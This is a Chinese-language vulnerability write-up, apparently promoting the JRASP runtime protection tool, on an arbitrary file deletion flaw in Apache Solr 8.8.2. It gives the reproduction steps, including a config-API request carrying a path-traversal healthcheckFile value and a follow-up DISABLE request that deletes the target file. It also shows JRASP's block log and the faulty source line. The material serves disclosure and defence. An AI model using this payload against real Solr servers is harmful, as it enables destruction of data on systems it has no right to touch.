








# Apache Solr 任意文件删除

## 漏洞简介
Apache Solr 存在任意文件删除漏洞，在目前的最新版本(8.8.2)中仍然未被修复，漏洞的根本成因是函数 Files.deleteIfExists()对要删除的文件名并未做校验。同时 Apache Solr Config Api 对外开放，导致任意用户可修改配置，造成危害。

## 环境搭建(mac-os环境)
#### 1、下载 [Apache Solr 8.8.2](http://archive.apache.org/dist/lucene/solr/8.8.2/) 的二进制文件和源码文件，方便进行调试。



#### 2、进入bin目录下执行

linux 环境执行
```shell
solr -e dih  
```
#### 3、 访问 http://IP:8983/solr/#/

[我在本地环境启动了solr](http://localhost:8983/solr/#/)




## 漏洞复现
#### 1、 新建一个文件
```shell
touch /tmp/solr.txt
```
#### 2、向任意 solr core 的 config API 发送一个 POST 包
例如 `/solr/db/config` 或者 `/solr/solr/config` 之类的

HTTP body
```json
{
  "add-requesthandler": {
    "name": "/test2021",   
    "class":"solr.PingRequestHandler",
    "healthcheckFile":"../../../../../../../../../../../../../tmp/solr.txt"
  }
}
```

完整的请求如下：



检查是否创建成功



#### 4、发送请求
再向core包的 config API发送一个GET请求, 参数为action=DISABLE 
例如：/solr/db/test2021?action=DISABLE


#### 5、查看/tmp/solr.txt 文件
文件被删除




#### 6、开启 JRASP 防护，重复上面的步骤1~5

请求被阻断，文件删除失败



#### 7、JRASP 拦截到的参数
```json
{
	"method": "GET",
	"remoteHost": "[0:0:0:0:0:0:0:1]",
	"headerNames": [],
	"filePath": "/Users/xxxx/Downloads/solr/example/example-DIH/solr/db/data/../../../../../../../../../../../../../tmp/solr.txt",
	"module": "com.rasp.module.file.FileDeletModule",
	"requestURI": "/solr/db/test2021",
	"protocol": "HTTP/1.1",
	"enableBlock": true,
	"attack": true,
	"stackTrace": ["java.lang.Thread.getStackTrace(Thread.java:1559)", "com.rasp.module.common.StackTrace.getStackTrace(StackTrace.java:7)", "com.rasp.module.file.FileDeletModule$2.before(FileDeletModule.java:137)", "com.alibaba.jvm.sandbox.api.listener.ext.AdviceAdapterListener.switchEvent(AdviceAdapterListener.java:99)", "com.alibaba.jvm.sandbox.api.listener.ext.AdviceAdapterListener.onEvent(AdviceAdapterListener.java:39)", "com.alibaba.jvm.sandbox.core.enhance.weaver.EventListenerHandler.handleEvent(EventListenerHandler.java:117)", "com.alibaba.jvm.sandbox.core.enhance.weaver.EventListenerHandler.handleOnBefore(EventListenerHandler.java:353)", "java.com.alibaba.jvm.sandbox.spy.Spy.spyMethodOnBefore(Spy.java:164)", "java.nio.file.Files.deleteIfExists(Files.java)", "org.apache.solr.handler.PingRequestHandler.handleEnable(PingRequestHandler.java:319)", "org.apache.solr.handler.PingRequestHandler.handleRequestBody(PingRequestHandler.java:220)", "org.apache.solr.handler.RequestHandlerBase.handleRequest(RequestHandlerBase.java:216)", "org.apache.solr.core.SolrCore.execute(SolrCore.java:2646)", "org.apache.solr.servlet.HttpSolrCall.execute(HttpSolrCall.java:794)", "org.apache.solr.servlet.HttpSolrCall.call(HttpSolrCall.java:567)", "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:427)", "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:357)", "org.eclipse.jetty.servlet.FilterHolder.doFilter(FilterHolder.java:201)", "org.eclipse.jetty.servlet.ServletHandler$Chain.doFilter(ServletHandler.java:1601)", "org.eclipse.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:548)", "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:143)", "org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:602)", "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:127)", "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:235)", "org.eclipse.jetty.server.session.SessionHandler.doHandle(SessionHandler.java:1612)", "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:233)", "org.eclipse.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1434)", "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:188)", "org.eclipse.jetty.servlet.ServletHandler.doScope(ServletHandler.java:501)", "org.eclipse.jetty.server.session.SessionHandler.doScope(SessionHandler.java:1582)", "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:186)", "org.eclipse.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:1349)", "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:141)", "org.eclipse.jetty.server.handler.ContextHandlerCollection.handle(ContextHandlerCollection.java:191)", "org.eclipse.jetty.server.handler.InetAccessHandler.handle(InetAccessHandler.java:177)", "org.eclipse.jetty.server.handler.HandlerCollection.handle(HandlerCollection.java:146)", "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:127)", "org.eclipse.jetty.rewrite.handler.RewriteHandler.handle(RewriteHandler.java:322)", "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:127)", "org.eclipse.jetty.server.Server.handle(Server.java:516)", "org.eclipse.jetty.server.HttpChannel.lambda$handle$1(HttpChannel.java:383)", "org.eclipse.jetty.server.HttpChannel.dispatch(HttpChannel.java:556)", "org.eclipse.jetty.server.HttpChannel.handle(HttpChannel.java:375)", "org.eclipse.jetty.server.HttpConnection.onFillable(HttpConnection.java:273)", "org.eclipse.jetty.io.AbstractConnection$ReadCallback.succeeded(AbstractConnection.java:311)", "org.eclipse.jetty.io.FillInterest.fillable(FillInterest.java:105)", "org.eclipse.jetty.io.ChannelEndPoint$1.run(ChannelEndPoint.java:104)", "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.runTask(EatWhatYouKill.java:336)", "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.doProduce(EatWhatYouKill.java:313)", "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.tryProduce(EatWhatYouKill.java:171)", "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.produce(EatWhatYouKill.java:135)", "org.eclipse.jetty.util.thread.QueuedThreadPool.runJob(QueuedThreadPool.java:773)", "org.eclipse.jetty.util.thread.QueuedThreadPool$Runner.run(QueuedThreadPool.java:905)", "java.lang.Thread.run(Thread.java:748)"],
	"localAddr": "[0:0:0:0:0:0:0:1]",
	"parameterMap": {
		"action": ["DISABLE"]
	},
	"remoteAddr": "[0:0:0:0:0:0:0:1]"
}
```


## 漏洞源码分析
 与solr 相关的调用栈如下


结合调用栈和请求参数我们很容易定位漏洞在源码中的位置

找到java文件 `PingRequestHandler.java` 定位到319行



原来是删除文件时没有校验文件的路径。

## 检测拦截手段
    
JRASP 已经支持任意文件删除漏洞的检测与阻断


